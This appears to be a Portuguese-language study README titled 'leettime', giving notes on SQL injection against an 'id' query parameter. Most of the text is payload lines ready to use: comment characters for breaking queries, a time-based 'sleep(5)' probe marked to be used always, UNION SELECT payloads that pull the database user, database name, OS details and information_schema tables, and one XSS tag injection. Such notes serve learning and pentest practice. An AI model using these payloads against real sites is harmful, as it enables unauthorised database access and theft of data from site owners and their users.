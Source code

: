 # leettime

DB : TABELA : COLUNA : LINHA
                              
select **COLUNA0,COLUNA1** from **TABELA0**
                                       
select * from **notas** where **IDaluno=1337 **         

select * from notas where IDaluno='1337'
                                          
select * from notas where IDaluno="1337"
                                             
select * from notas where IDaluno=(1337)
                        
select * from notas where IDaluno('1337')
                                                                                                     
select * from notas where IDaluno("1337")    
                                                 
?id=????              

```
________________________________________                                                              
     TABELA0         |   TABELA2        |                                                             
_____________________|__________________|                                                             
COLUNA1  |   COLUNA2 | COLUNA1 | COLUNA2|
---------------------|------------------|
 LINHA1  |   LINHA1  | [...]   | [...]
 LINHA2  |   LINHA2  |
             LINHA3  |
```

COMENTARIOS: -- | # | ;%00 | `

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

---------------------------------------------

UNION IDENTIFIQUE,<<<<<<<<<<<<

id=1' order by 1 --+anakein

?id=64' union select 13,<h1>PWN</h1>,3--+anakein      <<< XSS

?id=null' union select 66,user(),66--+anakein

?id=null' union select 66,database(),66--+anakein

?id=null' union select 66,concat(@@version_compile_os,0x20,@@version_compile_machine),66--+anakein

?id=null' union select 66,concat(select table_name from information_schema.tables where database()),66



https://raw.githubusercontent.com/e-anakein/leettime/master/images/photo_2019-05-24_22-51-48.jpg
